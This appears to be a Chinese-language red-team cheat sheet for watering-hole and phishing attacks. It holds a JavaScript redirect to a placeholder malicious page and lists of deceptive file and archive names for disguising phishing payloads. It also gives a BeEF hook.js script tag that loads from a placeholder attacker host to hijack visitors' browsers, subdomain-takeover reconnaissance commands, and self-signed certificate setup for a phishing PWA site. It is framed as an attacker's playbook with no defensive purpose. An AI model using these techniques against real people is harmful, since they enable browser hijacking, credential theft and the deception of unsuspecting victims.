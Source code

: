 ```javascript
<script>
  window.location.href = "http://IP地址或域名/malicious_page";
</script>
```

### 钓鱼文件

#### 常见伪装配置文件的文件名

系统或应用程序配置文件:

+ config.ini / settings.ini
+ config.xml / settings.xml
+ config.json / settings.json
+ app.config
+ web.config
+ system.cfg
+ default.cfg
+ .env (环境变量文件)
+ log4j2.xml / log4j.properties
+ server.properties
+ database.config / db.config
+ application.properties

软件或工具的配置文件:

+ vpn.conf
+ proxy.conf
+ ssh.config / ssh_config
+ docker-compose.yml
+ gitconfig
+ gradle.properties
+ .bashrc / .zshrc (Shell 配置文件)
+ hosts (hosts 文件)
+ ldap.conf

与安全相关的配置文件:

+ ca.crt (根证书)
+ client.crt (客户端证书)
+ server.key (服务器私钥)
+ vulnerability.report
+ security.conf
+ firewall.conf

临时文件或备份文件:

+ backup.ini / backup.xml
+ temp.ini / temp.xml
+ old.ini / old.xml
+ ~config.ini

其他配置文件：

+ readme.txt
+ license.txt
+ install.txt

#### 常见伪装压缩包的文件名

以update为主题的文件名:

+ update.zip / update.rar / update.7z
+ patch.zip / patch.rar / patch.7z
+ security_update.zip / security_update.rar
+ system_update.zip / system_update.rar
+ software_update.zip / software_update.rar

以backup为主题的文件名:

+ backup.zip / backup.rar / backup.7z
+ data_backup.zip / data_backup.rar
+ full_backup.zip / full_backup.rar
+ system_backup.zip / system_backup.rar

以document或report为主题的文件名:

+ report.zip / report.rar / report.7z
+ document.zip / document.rar / document.7z
+ invoice.zip / invoice.rar
+ contract.zip / contract.rar
+ statement.zip / statement.rar

以archive为主题的文件名:

+ archive.zip / archive.rar / archive.7z
+ archive_data.zip / archive_data.rar

以tool或utility为主题的文件名:

+ tool.zip / tool.rar / tool.7z
+ utility.zip / utility.rar / utility.7z
+ installer.zip / installer.rar

与软件或服务相关的压缩包名:

+ vpn.zip / vpn.rar / vpn.7z
+ proxy.zip / proxy.rar / proxy.7z
+ server_config.zip / server_config.rar

其他常见压缩包名:

+ files.zip / files.rar
+ data.zip / data.rar
+ images.zip / images.rar
+ assets.zip / assets.rar
+ logs.zip / logs.rar

### Hook网站

BeEF:

```bash
<script src="http://IP地址或域名:3000/hook.js"></script>
```

[hook_server.py](水坑攻击/hook_server.py)

```bash
├── templates
│   └── index.html
```

[index.html](水坑攻击/index.html)

```bash
pip install flask-cors
python hook_server.py
```

### 子域名接管

```bash
amass enum -d 域名
nslookup -type=cname 子域名
dig cname 子域名
```

```bash
apt install awscli
aws s3 ls s3://bucket-name

apt install azure-cli
az storage account show --name storage-account-name

http://用户名.github.io
```

### PWA

```bash
openssl genrsa -out key.pem 4096
openssl req -new -key key.pem -out csr.pem
openssl x509 -req -in csr.pem -signkey key.pem -out cert.pem -days 365

cert.pem > /etc/ssl/certs/
key.pem > /etc/ssl/private/
```

/etc/apache2/sites-available/default-ssl.conf:

```bash
SSLCertificateFile      /etc/ssl/certs/cert.pem
SSLCertificateKeyFile   /etc/ssl/private/key.pem
```

```bash
apt install apache2 ssl-cert
a2enmod ssl
```

[PWA](水坑攻击/PWA)
